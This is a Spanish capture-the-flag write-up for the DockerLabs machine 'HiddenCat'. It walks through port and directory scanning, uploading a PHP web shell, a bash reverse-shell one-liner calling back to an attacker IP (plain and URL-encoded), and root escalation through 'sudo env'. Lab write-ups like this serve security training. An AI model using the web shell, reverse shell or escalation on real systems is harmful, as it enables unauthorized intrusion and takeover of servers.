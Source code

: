 ```yaml
---
layout: post
title: Maquina HiddenCat
subtitle: DockerLabs
header-img: img/in-post/2020-10-07/upload-dl.png
header-style: text
catalog: true
tags:
  -  DockerLabs
  -  Web Fuzzing
  -  Binarios UNIX
  -  Arbitrary File Upload
  -  Reverse Shell
---
```


#### **Información**
- **Máquina:** HiddenCat
- **Creador:** El Pingüino de Mario
- **SO:** Linux
- **Dificultad:** Easy

#### **Configuración Entorno**
Lo primero que hacemos es descargarnos los archivos de dockerlabs de la maquina.
![Image 1](https://aanton94.github.io/blog/img/Upload/Img1.png)

Una vez descargado ejecutamos el siguiente script:
![Image 2](https://aanton94.github.io/blog/img/Upload/Img2.png)

**auto_deploy.sh:** este archivo se encarga de desplegar la máquina mediante docker y,
una vez presionamos `ctrl+c`{:.info} pasa a un proceso de borrado, todo automático, sin necesidad de tener conocimientos de docker.

**upload.tar:** contiene todo el contenido de la máquina docker; es el corazón, donde está la máquina víctima.

#### **Reconocimiento**
Lo primero que realizamos es lanzar un ping contra la IP de la maquina para comprobar que tenemos conectividad.
```bash
ping -c 1 172.17.0.2
```
![Image 3](https://aanton94.github.io/blog/img/Upload/Img3.png)

Podemos observar que el ttl es de 64, por tanto, como norma general podemos afirmas que se trata de una maquina linux.

Una vez comprobada la conectividad, inciaremos un escaneo con nmap, para detectar puertos abiertos y lo almacenaremos en un fichero llamado scan, con el siguiente comando:

```bash
nmap -p- --open -sV -sC -sS --min-rate=5000 -vvv -n -Pn -oN scan
```
- **-p-** --> Busqueda de puertos abiertos
- **--open** --> Enumera los puertos abiertos
- **-sS** --> Es un modo de escaneo rapido
- **-sC** --> Que use un conjunto de scripts de reconocimiento
- **-sV** --> Que encuentre la version del servicio abirto
- **--min-rate=5000** --> Hace que el reconocimiento aun vaya mas rapido mandando no menos de 5000 paquetes
- **-n** --> No hace resolución DNS
- **-Pn** --> No hace ping
- **-vvv** --> Muestra en pantalla a medida que encuentra puertos (Verbose)

![Image 4](https://aanton94.github.io/blog/img/Upload/Img4.png)

Podemos observar que solo cuenta con el puerto 80 abierto, al acceder via web nos encontramos con lo siguiente:
![Image 5](https://aanton94.github.io/blog/img/Upload/Img5.png)

Nos encontramos con un campo que nos permite subir un archivo, por lo tanto, tratamos de subir un fichero de prueba:
![Image 6](https://aanton94.github.io/blog/img/Upload/Img6.png)

Recibimos un mensaje de que el archivo se ha subido correctamente. A continuación, realizaremos fuzzing de la web para poder localizar posibles directorios. Utilizaremos la herramienta de fuzzing `gobuster`{:.info} aunque podríamos utilizar cualquier otra de este estilo, para ello utilizaremos un diccionario de directorios comunes.

```bash
gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 20
```
![Image 7](https://aanton94.github.io/blog/img/Upload/Img7.png)

Al finalizar el fuzzing encontramos el directorio uploads, tratamos de acceder y podemos ver que en este directorio se almaceno el fichero que subimos anteriormente.
![Image 8](https://aanton94.github.io/blog/img/Upload/Img8.png)

Comprobamos que podemos abrir el fichero en el navegador.
![Image 9](https://aanton94.github.io/blog/img/Upload/Img9.png)

Por tanto, al tener una ruta donde podemos subir y abrir ficheros, intentaremos subir un fichero con codigo php malicioso para tratar de lograr ejecutar comandos de forma remota.

#### **Explotación**

Para la explotación vamos a crear un archivo php llamado cmd.php con el siguiente código:

```php
<?php
	system($_GET['cmd']);
?>
```

Este script PHP ejecuta un comando del sistema recibido a través de la variable GET llamada 'cmd'. Por lo tanto, puede ser una puerta de entrada para ejecutar comandos maliciosos si no se filtran adecuadamente las entradas del usuario.

Subimos el fichero cmd.php, nos dirigimos al directorio uploads y vemos que al leer el fichero el servidor ejecuta el codigo php, utilizamos la variable cmd definida en el script para ejecurar el comando `whoami`{:.info}.
![Image 10](https://aanton94.github.io/blog/img/Upload/Img10.png)

Y efectivamente, nos devuelve que es usuario es **www-data**, por lo tanto, confirmamos que tenemos ejecución remota de comandos, abusando de esta brecha de seguridad podemos intentar abrir una revese shell contra el servidor víctima.

Para ello pondremos nuestra maquina atacante en escucha por el puerto 4444 utilizando netcat:

```bash
nc -lvnp 4444
```
Y ejecutaremos una revese shell a través del script de php cmd.php subido anteriormente.

`http://172.17.0.2/uploads/cmd.php?cmd=bash -c "bash -i >& /dev/tcp/192.168.199.131/4444 0>&1"`{:.info}

Al ejecutarlo no nos funciona, por tanto, la volvemos a pasar, pero esta vez aplicando un URL Encode:

`http://172.17.0.2/uploads/cmd.php?cmd=bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.199.131%2F4444%200%3E%261%22`{:.info}

Y recibimos la reverse shell en el puerto que teníamos en escucha.
![Image 11](https://aanton94.github.io/blog/img/Upload/Img11.png)

Una vez tenemos la revese shell es hora de realizar el tratamiento de la TTY, ya que nos facilitara el manejo al no matar la shell al ejecutar control+c, control+l, etc.

Para ello ejecutamos los siguientes comandos:

```bash
script /dev/null -c bash
ctrl+z
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=bash
```

Una vez realizado comenzaremos con la escalada de privilegios, lo primero que hacemos siempre es revisar que binarios puede ejecutar nuestro usuario como `root`{:.error}, para ello ejecutamos `sudo -l`{:.info}.
![Image 12](https://aanton94.github.io/blog/img/Upload/Img12.png)

Vemos que podemos ejecutar el binario `/usr/bin/env`{:.info} como usuario `root`{:.error}, sin necesidad de conocer su contraseña. Para explotarlo podemos utilizar la web [http://https://gtfobins.github.io/](http://https://gtfobins.github.io/) y buscar la forma de explotar dicho binario. En este caso simplemente tenemos que ejecutar `sudo env /bin/sh`{:.info}
![Image 13](https://aanton94.github.io/blog/img/Upload/Img13.png)

Y efectivamente, somo `root`{:.error}, por lo tanto, `¡¡¡maquina vulnerada!!!`{:.success} :smirk::smirk::smirk:

#### **Eliminación del entorno**

Para borrar la máquina solo debemos ir a la consola donde lo desplegamos y presionar `ctrl+c`{:.info} y eliminaría y borraría todo rastro de la máquina víctima en nuestro sistema LINUX.
![Image 14](https://aanton94.github.io/blog/img/Upload/Img14.png)

`¡¡¡Espero que os haya gustado y nos vemos en la próxima!!!`{:.success}
